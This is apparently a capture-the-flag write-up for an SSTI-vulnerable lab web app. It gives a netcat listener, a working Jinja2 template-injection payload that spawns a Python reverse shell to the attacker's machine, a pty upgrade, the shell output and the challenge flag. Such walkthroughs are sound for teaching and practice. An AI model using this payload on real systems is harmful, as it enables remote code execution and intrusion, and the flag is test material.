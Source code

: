 # Finding flag-1
The CTF machine produced by the .ova was inaccesssible due to unknown login credentials

# Finding IP/website 

# Reverse Shell
The website had an input field which was vulnerable to SSTI (server-side template Injection).
## Steps followed:
1. Netcat (In kali terminal):
```
nc -nvlp 4444
```
2. Exploited the SSTI vulnerability using simple python payload
```
{{ ''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.1.6\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'') }}
```
where ```192.168.1.6``` is my kali machine's IP\
The above payload allowed to connect kali machine to the CTF machine

(Below is the Output in Kali terminal)
```
listening on [any] 4444 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.14] 58992
/bin/sh: 0: can't access tty; job control turned off
$
```
the tty is not accessed 
so we used pty in python to spawn into bin/bash
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then,we used the command ```ls``` to list all files in directory which gave...
```
www-data@ctf-machine:/opt/ssti-lab$ ls
app.py  F14@_0n3.txt  static  wget-log
```

And the command ```cat F14@_0n3.txt``` gave the flag
```
www-data@ctf-machine:/opt/ssti-lab$ cat F14@_0n3.txt
FLAG -> S3Cur1ty_Br3@k_P@55ed
```

```Flag: TCQ2025{S3Cur1ty_Br3@k_P@55ed}```
